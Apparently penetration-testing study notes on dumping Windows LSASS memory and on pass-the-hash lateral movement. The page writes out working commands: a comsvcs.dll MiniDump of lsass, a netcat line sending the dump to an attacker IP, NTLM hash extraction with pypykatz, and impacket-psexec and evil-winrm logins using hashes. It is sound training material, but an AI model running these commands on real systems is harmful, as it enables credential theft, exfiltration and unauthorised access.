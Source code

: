 First we need to find the PID of `lsass.exe`:

```powershell
tasklist | Select-String lsass
```

Then we can execute MiniDump.
```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump [PID] C:\temp\out.dmp full
```

Transfer DMP via Netcat (or otherwise). This command won't exit out nicely when the transfer is finished, so we will need to manually check the file size on the disk of the attacking machine until it is complete.

```powershell
# on victim
nc.exe -vn 192.168.119.215 4444 < C:\Users\Public\lsass.dmp

# on attacker
nc -nvlp 4444 > lsass.dmp
```

Use `pypykatz` to extract the NTLM hashes.
```bash
pypykatz lsa minidump lsass.dmp
```

## Task Manager

Remember if all else fails and we have RDP access to the target machine, we can dump the process memory of LSASS from Task Manager.

![]({{site.baseurl}}/assets/resources/Pasted%20image%2020220313154727.png)

The DMP file by default is output to `%temp%\lsass.DMP`, which will expand to `C:\Users\<user>\AppData\Local\Temp\lsass.DMP`.

# Lateral Movement

Note when passing the hash we may need to preface the NTLM hash for the user account with the standard blank LM hash `aad3b435b51404eeaad3b435b51404ee`. This is the case for all Impacket tools.

### PsExec

Port 445 (SMB) must be open for PsExec to function.

```bash
impacket-psexec user@10.11.1.1 -hashes aad3b435b51404eeaad3b435b51404ee:<user NTLM>
```
PsExec can also sometimes be used for local privilege escalation.

### WinRM

```bash
evil-winrm -i 10.11.1.2 -u bob -H d4738f8c31d43e0167f27894a20e6688
```
